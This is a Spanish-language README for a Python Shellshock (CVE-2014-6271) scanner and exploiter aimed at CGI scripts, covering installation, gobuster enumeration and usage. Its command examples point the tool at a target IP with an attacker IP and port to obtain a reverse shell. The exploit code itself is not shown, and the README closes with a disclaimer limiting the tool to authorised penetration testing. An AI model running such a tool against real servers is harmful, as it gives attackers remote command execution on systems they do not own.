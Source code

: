 # Shellshock Scanner y Explotador

Este script de Python es una herramienta para detectar y explotar la vulnerabilidad Shellshock (CVE-2014-6271) en servidores web que utilizan scripts CGI.

## Descripción

Shellshock es una vulnerabilidad crítica que afecta a la shell Bash y permite a un atacante ejecutar comandos arbitrarios a través de variables de entorno. Esta herramienta automatiza:

- La detección de scripts CGI accesibles en el servidor objetivo
- La verificación de vulnerabilidad Shellshock en cada script encontrado
- La explotación para obtener una shell reversa

## Requisitos

La herramienta requiere las siguientes dependencias:
- Python 3
- gobuster
- curl
- netcat (nc)

## Instalación

```bash
# Clonar el repositorio
git clone https://github.com/usuario/shellshock-scanner.git
cd shellshock-scanner

# Hacer el script ejecutable
chmod +x shellshock_scanner.py

# Verificar dependencias (el script comprobará automáticamente)
sudo apt install gobuster curl netcat-traditional
```

El script verificará e instalará automáticamente las dependencias necesarias. 

## Uso

### Modo interactivo (recomendado)

Simplemente ejecuta el script sin argumentos con la opción -h y sigue los pasos interactivos:

```bash
./shellshock_scanner.py
```

```bash
./shellshock_scanner.py -h
```


### Modo con argumentos

También puedes ejecutar el script con argumentos específicos:

```bash
./shellshock_scanner.py --target 192.168.1.10 --attacker-ip 192.168.1.5 --attacker-port 4444 --wordlist /usr/share/wordlists/dirb/common.txt
```

Para probar un script CGI específico:

```bash
./shellshock_scanner.py --target 192.168.1.10 --attacker-ip 192.168.1.5 --cgi-script test.cgi
```

## Proceso de funcionamiento

1. **Verificación de dependencias**: El script comprueba e instala todas las herramientas necesarias.
2. **Enumeración**: Utiliza gobuster para encontrar scripts CGI en el directorio `/cgi-bin/` del servidor.
3. **Detección**: Verifica la vulnerabilidad Shellshock en cada script encontrado.
4. **Explotación**: Para los scripts vulnerables, intenta obtener una shell reversa.

## Características adicionales

- Creación automática de un wordlist básico si no se encuentra ninguno.
- Múltiples payloads para aumentar las probabilidades de éxito.
- Comprobación manual de scripts CGI específicos.

## Consideraciones legales

Esta herramienta está diseñada únicamente para fines educativos y de pruebas de penetración autorizadas. El uso de esta herramienta contra sistemas sin permiso explícito es ilegal y puede resultar en consecuencias legales.
